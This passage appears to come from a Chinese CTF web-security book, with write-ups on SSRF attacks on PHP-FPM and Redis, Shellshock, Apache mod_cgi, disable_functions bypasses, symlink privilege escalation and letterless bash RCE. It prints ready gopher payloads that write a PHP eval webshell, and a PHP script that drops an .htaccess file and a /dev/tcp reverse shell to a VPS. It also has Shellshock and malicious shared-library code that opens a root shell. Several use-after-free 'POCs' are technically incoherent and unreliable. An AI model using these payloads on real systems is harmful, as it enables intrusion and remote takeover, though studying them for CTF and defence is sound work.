- END_REQUEST: 请求结束

**6️⃣ PHP-FPM 简介**

PHP-FPM 是专门为 **PHP 提供更高效、更稳定的进程管理机制的 FastCGI 实现**，常用于配合 Nginx 部署 PHP 网站

```
浏览器请求 --> Nginx --> PHP-FPM --> PHP 脚本执行 --> 返回结果
```

**7️⃣攻击原理**

```lua
+----------------------+
|   攻击者发起请求     |
+----------------------+
            |
            v
+----------------------------------+
| PHP-FPM 端口 9000 是否暴露公网？    |
+----------------------------------+
      |                      |
      | 是                   | 否
      v                      v
+------------------+   +-------------------+
|  直接构造 FastCGI|   |  SSRF 访问 127.0.0.1|
|   数据包攻击FPM  |   |   请求 FastCGI 端口  |
+------------------+   +-------------------+
      |                      |
      +----------+-----------+
                 v
       +----------------------------+
       |   SCRIPT_FILENAME 参数控制  |
       +----------------------------+
                 |
     +-----------------------------+
     |  文件后缀是否受限制？        |
     +-----------------------------+
         |                    |
         | 老版本，不受限       | 新版本，仅限 .php
         v                    v
+----------------+     +---------------------+
| 任意文件可利用 |     | 只能利用已有 .php 文件 |
+----------------+     +---------------------+
         |                    |
         v                    v
+--------------------+  +----------------------+
| 可读取 /etc/passwd |  | 执行指定 PHP 脚本，      |
| 或其他任意文件     |  | 达成远程代码执行       |
+--------------------+  +----------------------+
```

本文要利用一个脚本 [gopherus.py](https://github.com/tarunkant/Gopherus/tree/master)，这个脚本可以对 SSRF 漏洞进行利用，可以直接生成 payload 造成远程代码执行 RCE

```sh
┌──(kali㉿kali)-[~/Gopherus]
└─$ python2 gopherus.py -h                                                             
usage: gopherus.py [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
```

我们选择 fastcgi 的

```sh
python2 gopherus.py --exploit fastcgi
```


然后输入 `/var/www/index.php`，运行一下 ls


得到 payload


```http
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27ls%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

再做一次 URL 编码（因为走的是 `?url`）

```http
gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527ls%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

可以看到有个 `index.php`


重新跑一下脚本拿 flag


成功拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-34.md -->
### Redis 协议 RCE


#### 1️⃣ SSRF 与 Redis 结合的核心思路

利用 **SSRF**（Server-Side Request Forgery，服务端请求伪造），让服务器主动去请求攻击者指定的 Redis 服务（或内网未授权的 Redis 服务），并向 Redis 写入恶意 payload，从而进一步实现 **远程命令执行（RCE）**

**2️⃣ SSRF Redis RCE 常见利用链**

| 阶段   | 动作                                                         |
| ------ | ------------------------------------------------------------ |
| 第一步 | SSRF 控制目标服务请求 Redis（通常使用 `gopher://` 协议，可以伪造 TCP payload） |
| 第二步 | 向 Redis 发送写入命令，修改其配置，如 `dir` 和 `dbfilename`  |
| 第三步 | 向 Redis 写入 **恶意 SSH 公钥** 或 **计划任务脚本** 到 Web 根目录或 `.ssh/authorized_keys` |
| 第四步 | 触发 Redis 保存（`SAVE`），将 payload 写入磁盘，造成任意代码执行或提权 |

本题依然可以使用 gopherus 实施攻击


再 URL 编码一次

```
gopher%3A//127.0.0.1%3A6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252432%250D%250A%250A%250A%253C%253Fphp%2520%2540eval%2528%2524_POST%255B%2527c%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```


<!-- Imported from D:\\Book\\Web\\Chapter6\6-35.md -->
### Shellshock 提权


**漏洞本质**

Bash 在处理 “函数定义” 的环境变量时会**继续执行函数体后多余的字符串内容**，即使它不是合法的函数定义

**✅ 1. 正常的函数环境变量行为（示例）**

```bash
env 'foo=() { echo hello; }' bash -c "echo done"

# `foo` 被定义成一个函数，Bash 会正常识别它
```

**❌ 2. 漏洞触发示例（Shellshock Payload）**

```bash
env 'foo=() { :;}; echo vulnerable' bash -c "echo test"

# foo=() { :;}; echo vulnerable 看起来像一个函数定义：
	# foo=() { :;} 是合法函数定义（:; 是 NOP）
	# 但后续跟着 ; echo vulnerable，却被 Bash 误当作要执行的代码
# bash -c "echo test" 本意是执行 echo test，但由于 Bash 解析 foo 时“附带执行”了 echo vulnerable 
```

```bash
# 输出
vulnerable
test
```

网页给出了后门密码


蚁剑直接连接


构造 RCE 代码，[参考博客](https://a1andns.github.io/post/CTFHUB%E6%8A%80%E8%83%BD%E6%A0%91WEB%E8%BF%9B%E9%98%B6)

```php
<?php
   # putenv() 用于设置环境变量
   putenv("PHP_test=() { :; }; tac /flag >> /var/www/html/a1andns");
   error_log("admin",1);。
   echo 'ok';// 便于判断是否运行成功
?>
```

右键上传文件


浏览器访问出现 OK


<!-- Imported from D:\\Book\\Web\\Chapter6\6-36.md -->
### Apache Mod CGI 提权


当 Apache 配置中启用了以下内容时：

```bash
<Directory />
	# 表示允许所有用户（包括匿名用户）访问此目录及其子目录，没有任何限制
    Require all granted
</Directory>
```

再配合 `mod_cgi` 模块，攻击者可以构造特殊的 URL 请求，如：

```bash
GET /cgi-bin/.%2e/.%2e/bin/sh HTTP/1.1
Host: victim.com
```

`%2e` 是 URL 编码的 `.`，这导致路径解析出错，绕过了限制

利用该路径访问系统中的 `sh` 或其他解释器，附带参数来执行任意命令

例如：

```bash
POST /cgi-bin/.%2e/.%2e/bin/sh HTTP/1.1
Host: vulnerable.com
Content-Length: 46
Content-Type: application/x-www-form-urlencoded

echo; echo "Content-Type: text/plain"; echo; id
```

输出将是 CGI 响应中的用户身份，即已执行系统命令

当你在 `php.ini` 中配置：

```ini
disable_functions = system, exec, shell_exec, passthru
```

这只是让 PHP 解释器在运行 `.php` 脚本时**不允许调用这些函数**，防止 PHP 代码执行系统命令

⚠️ 但前提是——**必须通过 PHP 来运行的代码才会受这个配置限制**

当你启用了 Apache 的 `mod_cgi` 模块后，它的工作方式是：

- 用户请求 `example.com/cgi-bin/exploit.sh`
- Apache 检查该文件是可执行文件（比如 `/bin/sh` 脚本）
- Apache 启动新子进程，直接使用操作系统运行该脚本（不是交给 PHP）

这时，**不会加载 PHP，也不会执行 `php.ini` 的配置逻辑**

```
正常 PHP RCE 情况下：
浏览器 --> Apache --> PHP --> 你的脚本
                            |
                            └→ system(), 被 disable_functions 禁用

而 mod_cgi 情况下：
浏览器 --> Apache --> 直接执行 /bin/sh（绕过 PHP）
                        |
                        └→ 任意命令被执行（无任何语言级限制）
```

点击重置后门目录


点击 GetFlag 进入到后门，默认 index.php


右键插件选择好对应的模式


点击开始后如果条件没问题就会弹终端出来


手动的话需要先上传一个 `.htaccess` 文件，[参考博客](https://www.cnblogs.com/EddieMurphy-blogs/p/18188088)

```htaccess
# 允许当前目录中的 CGI（Common Gateway Interface）脚本被执行
Options +ExecCGI

# 将所有以 .eddie 结尾的文件视为 CGI 脚本（可执行文件）
# 即用户访问 example.com/script.eddie 时，Apache 会尝试执行它而不是当作普通文件输出
AddHandler cgi-script .eddie
```

反弹 shell 的 `shell.eddie` 文件

```bash
#!/bin/bash
# 输出 HTTP 响应头，告知浏览器这是 HTML 内容
echo -ne "Content-Type: text/html\n\n"

# 执行 ls 命令列出当前目录，并用 echo 输出
echo && ls
```

`eddie.php` 文件

```php
<?php
// 要执行的反弹 shell 命令（将 bash shell 连接到远程 VPS 的指定端口）
$cmd = "bash -i >& /dev/tcp/vps/port 0>&1";

// 创建 CGI 脚本的内容（bash 脚本）
$shellfile = "#!/bin/bash\n"; // 指定使用 bash 解释器
$shellfile .= "echo -ne \"Content-Type: text/html\\n\\n\"\n"; // 输出 HTTP 响应头，防止服务器抛出 500 错误
$shellfile .= "$cmd"; // 添加反弹 shell 命令到脚本中

// 输出检查结果的函数（是否满足条件）
function checkEnabled($text, $condition, $yes, $no)
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>\n"; // 根据条件输出结果
}

// 如果没有设置 ?checked=true 参数，则首次访问时进入该分支
if (!isset($_GET['checked']))
{
    // 向当前目录下的 .htaccess 文件添加一行 SetEnv 指令（检测是否允许使用 .htaccess）
    @file_put_contents('.htaccess', "\nSetEnv HTACCESS on", FILE_APPEND);

    // 重定向到自身，加上 ?checked=true 参数，进入下一阶段检测
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true');
}
else
{
    // 检查服务器是否启用了 mod_cgi 模块
    $modcgi = in_array('mod_cgi', apache_get_modules());

    // 检查当前目录是否有写权限
    $writable = is_writable('.');

    // 检查 .htaccess 文件是否生效（通过前面写入的 SetEnv 决定）
    $htaccess = !empty($_SERVER['HTACCESS']);

    // 显示三个条件的检测结果
    checkEnabled("Mod-Cgi 是否启用", $modcgi, "是", "否");
    checkEnabled("当前目录是否可写", $writable, "是", "否");
    checkEnabled(".htaccess 是否生效", $htaccess, "是", "否");

    // 如果有任一条件不满足，则退出执行
    if (!($modcgi && $writable && $htaccess))
    {
        echo "错误：上述所有条件都必须满足脚本才可工作！";
    }
    else
    {
        // 备份 .htaccess 文件（以防出错）
        checkEnabled("备份 .htaccess 文件", copy(".htaccess", ".htaccess.bak"), "成功！已保存为 .htaccess.bak", "失败！");

        // 写入新的 .htaccess 内容：启用 ExecCGI，并将 .dizzle 后缀当作 CGI 脚本处理
        checkEnabled("写入 .htaccess 文件", file_put_contents('.htaccess', "Options +ExecCGI\nAddHandler cgi-script .dizzle"), "成功！", "失败！");

        // 写入反弹 shell 脚本，扩展名为 .dizzle（便于伪装或绕过上传限制）
        checkEnabled("写入 shell 文件", file_put_contents('shell.dizzle', $shellfile), "成功！", "失败！");

        // 将 shell.dizzle 文件设置为 777 权限（可执行）
        checkEnabled("设置权限为 777", chmod("shell.dizzle", 0777), "成功！", "失败！");

        // 触发 shell 脚本的执行（通过 img 标签加载 shell.dizzle，但不显示）
        echo "正在执行脚本，请检查你的监听端口 ";
    }
}
?>
```

扔到 `backdoor` 目录下面，再直接访问 `eddie.php`

会在目录下生成 `shell.dizzle`，再访问 `shell.dizzle` 就可以成功反弹 shell


访问 `eddie.php`


蚁剑中刷新目录可以看到执行成功，多出两个文件


<!-- Imported from D:\\Book\\Web\\Chapter6\6-37.md -->
### PHP-FPM 提权


**PHP-FPM**（**FastCGI Process Manager**）是 PHP 的一种运行方式，专门用来提高 **PHP 在高并发 Web 环境中的性能和稳定性**

它负责 **管理多个 PHP 进程**，接收 Web 服务器（如 Nginx）发来的请求，交给 PHP 解析，然后把结果返回给 Web 服务器

```
用户浏览器
     ↓
   Nginx
     ↓ FastCGI（通过 Unix socket 或 TCP）
 PHP-FPM
     ↓
   PHP代码
```

配置文件位置

```bash
/etc/php/7.x/fpm/php-fpm.conf
/etc/php/7.x/fpm/pool.d/www.conf
```

正常的访问流程是：**浏览器 → Nginx（或 Apache） → PHP-FPM → 执行 PHP 文件**

如果我们知道 PHP-FPM 是监听在 **9000 端口**（默认），而且 Web 服务器没有加限制，那我们就可以**绕过 Nginx，直接用 FastCGI 协议和 FPM 通信**，就像模拟“Web 服务器”一样，直接让 FPM 执行 PHP 文件

前提条件如下：

**✅ 第一：你得指定一个“存在”的 PHP 文件（通过  `SCRIPT_FILENAME`）**

> 因为 FPM 接收请求时，需要你告诉它：要执行哪个 PHP 文件？

这就是 `SCRIPT_FILENAME` 参数的作用

- 如果这个参数指向的文件不存在，FPM 就直接返回 404
- 所以你必须找到目标服务器上已经存在的 PHP 文件

**💡技巧：**

> 有时候服务器上会预装一些 PHP 示例文件，攻击者可以利用这些

**✅ 第二：只能执行这个 PHP 文件？不能运行任意代码？**

就算你能控制  `SCRIPT_FILENAME`，也只能执行服务器上已有的 PHP 文件**

那如何实现“执行任意代码”呢？

> 可以利用 PHP 的配置项：`auto_prepend_file`。

**🚀 `auto_prepend_file` 是什么？**

这个配置项可以让你在执行目标 PHP 文件前，**自动包含（include）一个你指定的文件**

如果我们设置它为：`php://input`，那就表示——

> 在执行目标文件前，**先执行我们 POST 进来的 PHP 代码**！这就相当于远程执行了任意代码

**✅ 第三：PHP 默认禁止了这种用法，怎么办？**

PHP 有一个配置叫：

```ini
allow_url_include = Off
```

如果它是  `Off`，你就不能用  `php://input`  或远程 URL 做 include

**🤯 解决办法：**

FastCGI 协议里有两个关键字段：

- `PHP_VALUE`：设置普通的 php.ini 配置项
- `PHP_ADMIN_VALUE`：设置一些高级（受限制）的 php.ini 配置项

所以我们可以直接在 FastCGI 请求中设置：

```
PHP_VALUE: allow_url_include=On
```

再加上：

```
PHP_VALUE: auto_prepend_file=php://input
```

这样，PHP 就会在执行前**自动执行我们构造的 payload**，从而实现远程代码执行

在蚁剑中 FPM/FCGI 地址这里 localhost 和 127.0.0.1 都试一试


连接新的木马


<!-- Imported from D:\\Book\\Web\\Chapter6\6-38.md -->
### GC UAF 提权


GC（Garbage Collection）机制

- PHP 的 GC 机制主要处理循环引用的内存释放
- 当对象之间存在循环引用时，正常的引用计数无法释放这些对象，GC 会检测并回收
- 在 PHP 5.3+ 引入的 **周期性垃圾收集器**（Cycle Collector）处理这类问题

**第一步：制造 UAF 场景**

通过创建一组存在循环引用的对象，比如：

```php
class A {
    public $ref;
}
$a = new A();
$b = new A();
$a->ref = $b;
$b->ref = $a;
```

然后取消引用：

```php
unset($a, $b);
```

这时候，两个对象形成的循环引用会被放入 GC roots 中等待清理

当 GC 清理这些对象时，如果其中某个对象的 `__destruct()` 方法访问了另一个已被释放的对象，就会触发 UAF

**第二步：布置恶意的析构方法**

在某个对象的 `__destruct()` 方法中调用 **动态方法或魔术方法**，并试图控制执行流程：

```php
class Exploit {
    function __destruct() {
        global $evil_payload;
        call_user_func($evil_payload);
    }
}
```

在 GC 回收阶段，该方法会被调用

**第三步：内存重用 & 漏洞触发**

因为 PHP 在释放内存后并不会立即清零，下次分配可能会复用该内存块

攻击者伪造新的对象结构或函数调用结构，劫持执行流，典型的方式包括：

- 伪造  `zend_execute_data`  结构
- 控制  `call_user_func()`  的函数指针
- 伪造  `zval`  指向一个特定的函数调用结构

**第四步：构造绕过 Payload，实现命令执行**

通过 UAF 劫持执行流后，攻击者构造出一个函数调用链，**最终跳转到原本被禁用的函数（如 system）所在的位置**，并执行命令

```php
$func = "system"; // 被 disable_functions 禁用了
$evil_payload = [$func, "whoami"]; // 经过 UAF 执行这段
```

PHP 会认为是正常的回调函数，而绕过  `disable_functions`  的检查

蚁剑梭哈


<!-- Imported from D:\\Book\\Web\\Chapter6\6-39.md -->
### Json Serializer UAF 提权


**JSON 反序列化漏洞**

`json_decode()`  在处理特定的对象（如实现了  `__wakeup()`  或  `__destruct()`  方法的类）时，可以触发敏感操作。如果配合弱类型比较或 UAF，可能实现利用

**步骤 1：构造触发点**

某些 PHP 内建类（如 `DateInterval`, `SplFileObject` 等）在 **反序列化过程中释放内存对象**，而 **错误地在之后又引用了该对象**，造成 UAF。例如：

```php
$json = '{"date_string":"P1D"}'; 

# 第一个参数 $json：要解码的 JSON 字符串
# 第二个参数 false：当为 false 时，返回对象；当为 true 时，返回关联数组。不过这个行为会被第四个参数覆盖
# 第三个参数 512：递归深度，这里是默认值
# 第四个参数 JSON_OBJECT_AS_ARRAY：这是一个常量，表示将 JSON 对象解码为关联数组而不是对象。这会覆盖第二个参数的行为
$obj = json_decode($json, false, 512, JSON_OBJECT_AS_ARRAY);
```

在某些版本中，`DateInterval`  的解析会调用底层 C 实现的解析逻辑，释放部分内部结构后仍访问它

**步骤 2：布置内存布局**

使用 PHP 用户定义对象或数组堆喷（heap spraying）覆盖释放掉的内存，使得 UAF 指针指向攻击者可控内容

```php
$payload = str_repeat("A", 1024); // 可控数据替换被释放的内存
```

**步骤 3：伪造 zend_function 结构**

在 PHP 底层，函数指针保存在  `zend_function`  结构中。攻击者覆盖 UAF 内存，使其看起来像一个函数对象，伪造 `handler`  指向任意地址（如 libc 的 `system()`），或构造 ROP 链，最终实现执行

```
[ fake zend_function ]:
+0x00 handler => 0xdeadbeef (system 或 gadgets)
+0x08 function_name => "/bin/sh"
```

**步骤 4：调用伪函数触发执行**

通过某些魔术方法（如  `__destruct`, `__call`, `__invoke`）或特定内建函数（如  `call_user_func()`）调用伪函数，触发执行  `handler`

```php
call_user_func($fake_function, "/bin/sh");
```

此时，PHP 调用的是伪造的函数对象，实质执行的是任意地址上的函数，比如 `system("/bin/sh")`

**真实利用案例（概念）**

```php
<?php

class Evil {
    public $cmd;

    function __destruct() {
        // 触发伪造函数执行
        call_user_func($this->cmd);
    }
}

// Step 1: 触发 UAF（比如某类反序列化触发）
$victim = json_decode('{"a":"..."}', false);

// Step 2: 用我们控制的数据重叠释放的内存
for ($i = 0; $i < 10000; $i++) {
    $spray[] = str_repeat("A", 1024);
}

// Step 3: 设置伪函数结构并执行
$evil = new Evil();
$evil->cmd = "/bin/sh"; // 实际指向伪函数结构
```

蚁剑梭哈


<!-- Imported from D:\\Book\\Web\\Chapter6\6-4.md -->
### && 代替 & 绕过


打开网页是一个执行 Ping 命令然后给回显


使用 && 可以绕过，&& 左边命令成功执行则会执行右边的


<!-- Imported from D:\\Book\\Web\\Chapter6\6-40.md -->
### Backtrace UAF 提权


PHP 的 `debug_backtrace()`  和 `Exception::getTrace()` 会在运行时生成一个调用栈（trace），包含函数、文件、行号、参数等

这个调用栈实际上是 **zval 结构体组成的数组**，包括函数指针、类名、参数指针等

关键点是：在构造  `backtrace` 时，PHP 会将当前的执行栈压入临时内存

**💡 1. 构造 backtrace 引发临时结构体分配**

```php
function trigger() {
    debug_backtrace();
}
```

当调用 `debug_backtrace()`，PHP 会构造一个 `zend_execute_data` 结构体的快照，用于保存当前调用栈，这里面包含很多指针，如：

- 函数名（function_name）
- 类名（class_name）
- 参数（zval 指针）
- zend_function 指针（可能有执行函数 handler）

**💡 2. 引发某些对象的释放（free）**

利用某些语言特性或者对象析构等方式，让一些结构体**释放掉但仍保留引用**

```php
class A {
    public function __destruct() {
        global $a;
        unset($a); // 引发析构
        debug_backtrace(); // 调用时释放对象导致悬空引用
    }
}
```

**💡 3. 重新分配释放后的内存（填充 UAF）**

接下来攻击者会分配**用户可控的数据**，例如字符串、数组、对象等，来**填充已经释放的内存区域**

由于 PHP 使用堆内存管理机制（Zend Memory Manager），释放后的内存会被优先复用

```php
$fake_func = str_repeat("\x41", 100); // 用 'A' 重写释放的结构体
```

攻击者可以控制一些偏移处的内容来伪造 `zend_function`、`zend_execute_data` 等结构体，从而控制执行流

**💡 4. 利用调用堆栈中的函数指针完成控制流劫持**

在调用 backtrace 的时候，PHP 会尝试读取 `zend_function` 并调用其中的 `internal_function.handler`

如果这个结构体是伪造的、用户可控的，那这个 handler 就变成了任意地址！

攻击者就可以跳转到：

- libc 的 `system()` 函数
- 已知地址的 shellcode
- php-fpm 或 apache 中的其他函数地址（如 `execvp`, `popen`, 等）

```php
class Trigger {
    function __destruct() {
        debug_backtrace(); // 引发栈分配 + UAF
    }
}

$a = new Trigger();
unset($a); // 引发 __destruct

// 填充已释放内存
$payload = str_repeat("\x00", 0x100); // 控制结构体内容

// 此时 handler 被劫持，跳到 system("/readflag") 等地址
```

蚁剑插件直接梭哈


<!-- Imported from D:\\Book\\Web\\Chapter6\6-41.md -->
### FFI 扩展提权


FFI 的本质是使用 libffi 和 dlopen/dlsym 将系统的 libc 函数绑定到 PHP，从而绕过 PHP 层的限制

即使 PHP 禁用了 `exec()`，攻击者仍可以通过以下流程执行系统命令：

> 利用  `FFI::cdef()` ➜ 声明  `int system(const char *cmd)` ➜ 利用  FFI 找到  libc ➜ 调用  `system()`

**核心利用流程详解**

```php
<?php
// 第一步：构造 C 函数声明
$ffi = FFI::cdef(
    "int system(const char *command);",  // C 语言的函数原型
    "libc.so.6"                           // Linux 系统 libc 动态库
);

// 第二步：调用 system 命令
$ffi->system("id");  // 等同于 system("id");
?>
```

1. `FFI::cdef()` 中声明了 `int system(const char *command);`；
2. `libc.so.6` 是 Linux 下标准 C 函数库，包含了 `system()`；
3. 调用 `$ffi->system("id")` 等同于 PHP 中的 `system("id")`；
4. 即使 `disable_functions=system,exec,passthru`，这段代码仍然成功执行命令

| 条件                     | 说明                                          |
| ------------------------ | --------------------------------------------- |
| PHP ≥ 7.4                | FFI 扩展是从 PHP 7.4 开始引入的               |
| FFI 扩展启用             | `php.ini` 中 `extension=ffi`                  |
| `ffi.enable=true`        | 控制是否允许 FFI 功能（默认生产环境为 false） |
| `disable_functions` 生效 | FFI 是底层调用，不受影响                      |

蚁剑一键梭哈


<!-- Imported from D:\\Book\\Web\\Chapter6\6-42.md -->
### iconv 提权


**UAF 利用点：iconv 缓冲释放不当**

某些 `iconv_*` 函数（比如 `iconv_strlen()`）在处理非法字符时会触发错误流程，例如：

```php
iconv_strlen("\x80", "UTF-8");
```

上述代码会尝试处理非法的 UTF-8 字节流，引发底层错误。但在旧版 PHP 的处理逻辑中：

- 会先分配 buffer
- 出错时没有完全释放或释放后没有清空指针
- 下一次分配对象时可能复用了这段内存，从而导致 UAF

**劫持对象结构**

UAF 利用的目标是劫持 PHP 的内部对象结构（如 `zend_object`），例如通过自定义类与析构逻辑：

```php
class Vuln {
    public $a, $b;
    function __destruct() {
        global $exploit;
        echo $exploit;
    }
}
```

攻击者通过：

- 构造多个对象
- 利用 iconv 的漏洞破坏旧对象的结构
- 在同一个位置分配新的数据（如字符串），从而劫持虚拟函数指针

最终可以实现类似：

```php
call_user_func($fake_function_pointer); // 任意地址执行
```

**构造 fake closure 执行 system**

PHP 的 `Closure` 结构在内存中的表示是可以伪造的。例如如下伪构造：

```php
// 内存中构造 fake Closure 对象结构体，指向 zend_execute_ex -> system
$fake_closure = "\x00" * offset . ptr_to_system;
$cb = unserialize($fake_closure);
$cb("id");
```

通过 `iconv` 的 UAF 劫持使内存中的 closure 结构变成指向 `system()` 的执行逻辑，从而实现绕过 `disable_functions`

**利用链示意**



**真实利用 POC（简化）**

```php
// 假设 iconv UAF 存在
iconv_strlen("\x80", "UTF-8"); // 触发释放

class Vuln {
    public $cmd;
    function __destruct() {
        eval($this->cmd);
    }
}

// 泄露 + 构造 + 劫持（省略细节）
$a = new Vuln();
$a->cmd = "system('id');";

// 构造 fake object（通过 UAF 实现）
```

蚁剑直接梭哈


<!-- Imported from D:\\Book\\Web\\Chapter6\6-43.md -->
### 动态加载器提权


**Linux 动态加载器**

当一个动态链接的程序被执行时：

1. 内核加载 ELF 可执行文件
2. 内核发现它是动态链接的，于是不直接跳转到 `main()`，而是转而先执行动态链接器（例如 `/lib64/ld-linux-x86-64.so.2`）
3. 动态链接器会解析 ELF 的 `.interp` 段，加载所有依赖的 `.so`，执行符号重定位，然后跳转到用户程序的入口点

动态加载器本身是安全的，但以下机制可能被攻击者利用来实现**本地提权**：

**✅ 1. 环境变量劫持（LD_ 系列）**

Linux 动态链接器在执行过程中会解析多个环境变量，如：

| 环境变量          | 描述                           |
| ----------------- | ------------------------------ |
| `LD_PRELOAD`      | 指定要预先加载的共享库路径。   |
| `LD_LIBRARY_PATH` | 指定额外搜索共享库路径。       |
| `LD_AUDIT`        | 指定审计库，用于拦截函数调用。 |

**前提**：动态链接程序，且不是 setuid 程序（对 setuid 程序，这些变量通常被忽略）

**提权利用**：

- 若存在一个以 root 权限执行的 **非 setuid 程序**（如某些 misconfigured 的守护进程），攻击者可以通过篡改 `LD_PRELOAD` 来注入自己的 `.so` 以执行任意代码

**✅ 2. 利用 SUID 可执行程序中的加载器行为**

利用方式一：**自定义的动态加载器**

某些发行版/环境中允许自定义 `.interp` 段，比如将其指向攻击者自编译的 `ld-linux.so`：

```bash
# 修改 interp 段
patchelf --set-interpreter ./evil-ld.so.2 ./suid-binary
```

若目标程序是 SUID 且未做强校验，则攻击者可借此执行自己的加载器，从而控制整个加载过程并提权

> **注意**：多数现代系统对此有保护，只有当目标程序是用户自己编译的情况下才可能实现该攻击

利用方式二：**伪造共享库路径**

```bash
# 创建 SUID 程序运行所需的共享库名称
echo 'int init() { setuid(0); system("/bin/bash"); return 0; }' > exploit.c
gcc -shared -fPIC exploit.c -o libmylib.so

# 设置 LD_LIBRARY_PATH 并运行目标程序
LD_LIBRARY_PATH=. ./vuln-suid-binary
```

若 SUID 程序在不安全的路径下寻找 `.so`，可以被替换

蚁剑连接出题人给出的 WebShell


`ldd` 用于显示一个可执行文件或共享库所依赖的共享库（即动态链接库）


这样的话只要确认下 `ldd` 中动态库是否具备执行权限，是一个突破口

发现 `/lib64/ld-linux-x86-64.so.2` 具有执行权限


利用这个文件执行拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-44.md -->
符号链接提权


先在“泄露端口”用 `nc` 拿到密码


然后回答问题

```sh
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
```

发现题目提示的横幅

```sh
player@challenge:~$ cat banner  
cat banner
*************************************
**************WELCOME****************
*************************************
```

与刚开始建立连接对应


找到 flag，但是没有权限

```sh
player@challenge:/root$ ls
ls
flag.txt  script.py
player@challenge:/root$ ls -l
ls -l
total 8
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

我们可以尝试用符号链接替换掉 `banner`，猜测刚开始的打印执行权限是 root

```sh
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
ln: failed to create symbolic link '/home/player/banner': File exists
player@challenge:/root$ rm ~/banner
rm ~/banner
player@challenge:/root$ ln -s /root/flag.txt ~/banner
ln -s /root/flag.txt ~/banner
```

重新建立连接拿到 flag


<!-- Imported from D:\\Book\\Web\\Chapter6\6-45.md -->
### Bash 错误 RCE（仅支持数字+符号）


常规输入命令无效


执行无字母命令并故意构造错误

```sh
$-
```


我们可以使用 `$_ `变量来访问最后运行的命令。因此，要运行 `id`，我们执行以下操作：

```sh
"$($- 2>&1)"; ${_:7:1}${_:20:1};
```

1️⃣ 第一个部分：`"$($- 2>&1)"`

`$()`：命令替换，把括号里的命令执行结果作为字符串返回

`$-`：

- `$-` 是 **Bash 内置变量**，表示当前 shell 的 **选项标志**
- 输出通常是类似 `himBH` 这样的字符串（表示 shell 开启了哪些选项）

`2>&1`：把标准错误（stderr）重定向到标准输出（stdout）

- 这里 `$-` 是有效变量，不会报错，所以实际上 `2>&1` 没有作用

2️⃣ 第二个部分：`${_:7:1}${_:20:1}`

1. **`${VAR:start:length}`** 是 Bash **子串提取**语法：
   - `VAR` 是变量名
   - `start` 是起始索引（0 开始）
   - `length` 是长度
2. **`_`** 变量：
   - 在 SansAlpha 中，通常会用 `_="$($- 2>&1)"` 将错误输出存到 `_` 里
   - 例如 `_="bash: himBH: command not found"`
3. **`${_:7:1}`**：提取第 8 个字符（索引从 0 开始），在上面的例子里是 `h`
4. **`${_:20:1}`**：提取第 21 个字符，在上面的例子里可能是 `c`
5. **组合**：`${_:7:1}${_:20:1}` → 拼接得到 `id` 或者题目中需要的其他字符


由此，我们得到 `ls`

```sh
"$($- 2>&1)"; "$(${_:7:1}${_:20:1})"; ${_:14:1}${_:47:1}
```


由此，我们得到 `cat` 和 `on-calastran.txt`

```sh
"$($- 2>&1)"; "$(${_:7:1}${_:20:1})"; "$(${_:14:1}${_:47:1})"; ${_:10:1}${_:11:1}${_:15:1} ${_:7:16}
```


查看 `blargh` 目录

```sh
"$($- 2>&1)"; "$(${_:7:1}${_:20:1})"; "$(${_:14:1}${_:47:1})"; "$(${_:10:1}${_:11:1}${_:15:1} ${_:7:16})"; ${_:6:1}${_:8:1} ${_:59:1}${_:6:1}${_:5:1}${_:10:1}${_:262:1}${_:1:1}
```

最后拿到 flag

```sh
